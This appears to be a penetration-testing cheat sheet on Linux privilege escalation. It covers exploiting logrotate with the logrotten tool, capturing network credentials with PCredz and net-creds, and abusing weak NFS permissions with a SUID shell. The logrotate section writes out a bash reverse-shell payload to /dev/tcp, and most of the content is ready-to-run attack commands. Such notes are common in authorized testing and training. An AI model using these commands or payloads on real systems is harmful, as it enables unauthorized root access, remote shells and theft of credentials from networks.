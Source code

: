 ## Logrotate

- To exploit logrotate, we need some requirements that we have to fulfill.
    - We need write permissions on the log files
    - Logrotate must run as a privileged user or root
    - Vulnerable versions: 3.8.6, 3.11.0, 3.15.0, 3.18.0

```shell
# Determine which option logrotate uses in logrotate.conf
# Use the exploit adapted to this function.
grep "create\|compress" /etc/logrotate.conf | grep -v "#"

# Prepare the cve exploit
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten

# Reverse shell payload
echo 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1' > payload
```

## Passive Traffic Capture

- Using PCredz to capture credentials over the wire

```shell
# Installation
apt install python3-pip && sudo apt install libpcap-dev && sudo apt install file && pip3 install Cython && pip3 install python-libpcap

# extract credentials from a pcap file
python3 ./Pcredz -f file-to-parse.pcap
# extract credentials from all pcap files in a folder
python3 ./Pcredz -d /tmp/pcap-directory-to-parse/
# extract credentials from a live packet capture on a network interface (need root privileges)
python3 ./Pcredz -i $INTERFACE -v
```

- Using net-creds

```shell
# Choose the interface and start capturing
sudo python net-creds.py -i eth0

# Read from pcap
python net-creds.py -p pcapfile
```

## Weak NFS Permissions

- We can create a `SETUID` binary that executes `/bin/sh` using our local root user.
- We can then mount the /tmp directory locally, copy the `root-owned` binary over to the NFS server, and set the `SUID` bit.
